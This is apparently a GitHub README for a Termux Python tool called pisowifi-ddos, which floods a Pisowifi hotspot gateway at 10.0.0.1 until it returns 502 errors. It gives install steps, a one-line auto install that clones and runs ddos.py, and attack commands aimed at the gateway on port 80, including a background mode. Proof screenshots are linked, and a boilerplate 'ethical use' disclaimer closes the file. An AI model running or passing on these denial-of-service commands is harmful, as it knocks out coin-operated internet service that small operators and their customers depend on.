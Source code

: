 # Pisowifi DDOS
10.0.0.1 = 502 Bad Gateway Error

<div align="center">
<img src="https://github.com/xiv3r/pisowifi-ddos/blob/main/image/proof.png">
</div>

# Requirements
- Termux

# Manual Install
```
pkg update && pkg upgrade -y
```
```
pkg install git python python-pip -y
```
```
git clone https://github.com/xiv3r/pisowifi-ddos.git
```
```
cd pisowifi-ddos
```
```
python ddos.py
```

# Auto Install
```
pkg update && pkg upgrade -y && pkg install git python python-pip -y && git clone https://github.com/xiv3r/pisowifi-ddos.git && cd pisowifi-ddos && python ddos.py
```
# Run
```
cd ~/pisowifi-ddos
```
```
python ddos.py -t 10.0.0.1 -p 80 -t 135
```
> Background mode

```
python ddos.py -t 10.0.0.1 -p 80 -t 135 2>&1 &
```

<div align="center">
<img src="https://github.com/xiv3r/pisowifi-ddos/blob/main/image/ddos.png">
</div>

### Disclaimer
`"This tool is intended solely for ethical cybersecurity purposes, such as penetration testing, vulnerability assessments, and authorized research. Unauthorized use to disrupt networks, services, or systems is illegal and violates cybersecurity laws. Misuse may result in severe legal penalties, including fines and imprisonment. Always obtain explicit permission before testing any system. By using this tool, you agree to comply with all applicable laws and assume full responsibility for your actions."`
